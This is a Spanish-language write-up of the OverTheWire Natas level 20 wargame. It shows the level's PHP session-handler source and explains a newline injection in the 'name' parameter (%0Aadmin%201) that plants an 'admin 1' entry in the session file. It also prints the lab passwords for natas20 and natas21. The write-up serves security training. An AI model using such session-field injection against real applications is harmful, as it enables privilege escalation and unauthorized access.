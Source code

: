 ```yaml
---
title: Natas-20
published: true
---
```


```
Url del reto: http://natas20.natas.labs.overthewire.org/index.php
login:natas20
 pass:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
```

Voy a mostrar lo parte del código más relevante. Si quieres ver el resto del código solo tienes que autenticarte y hacer clic en el link view sourcecode.

```php

<?php

function print_credentials() {
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}

function myread($sid) {
    debug("MYREAD $sid");
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    return session_encode();
}

function mywrite($sid, $data) {
    // $data contains the serialized version of $_SESSION
    // but our encoding is better
    debug("MYWRITE $sid $data");
    // make sure the sid is alnum only!!
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return;
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
}

session_set_save_handler(
    "myopen",
    "myclose",
    "myread",
    "mywrite",
    "mydestroy",
    "mygarbage");

session_start();

if(array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
    debug("Name set to " . $_REQUEST["name"]);
}

print_credentials();

$name = "";
if(array_key_exists("name", $_SESSION)) {
    $name = $_SESSION["name"];
}

?>
```

Envia por POST el campo name y lo introduce en un fichero llamado mysess_cookie en la ruta /var/lib/php5/sessions con la función mywrite()
Y dentro de este fichero contiene el campo name más su valor. El fichero quedaría así, por ejemplo:

```
name test
```

Luego cargará estos datos en $_SESSION y fallará en la condición que hay en print_credentials()

```php
if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
```

Para que sea verdadero la condición, tendremos que conseguir guardar en el fichero mysess_cookie los siguientes datos:

```
admin 1
```

Asi cuando lea desde la función myread, introducirá en $_SESSION estos valores.

Le di muchas vueltas en las cookies, ya que los retos eran sobre cookies.
Provoqué errores en session_save_path (creando una cookie con un nombre muy muy largo) pero nada.
Miré la función strspn para ver si habia alguna manera y nada
Di con la tecla en como se guardaba la info en los ficheros de mysess_cookie

Resulta que interpreta caracteres de control como las tabulaciones, saltos de linea.
Probé inyectarlo en el campo name del html pero nada para que funcione hay que enviar los caracteres de control mediante url encoding en la barra de dirección

```
http://natas20.natas.labs.overthewire.org/index.php?name=%0Aadmin%201
```
%0A = \n
%20 = espacio

Al realizar la petición, cargará en el fichero mysess_cookie

```
name test (valor que introdujimos la primera vez de prueba)
admin 1
```

Ya están los datos guardados por la función mywrite(), al actualizar la página, leerá los datos con la función myread() y podremos entrar en print_credentials() sin problemas, mostrando la solución.

```
Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ
```

[Volver al archivo](archive)

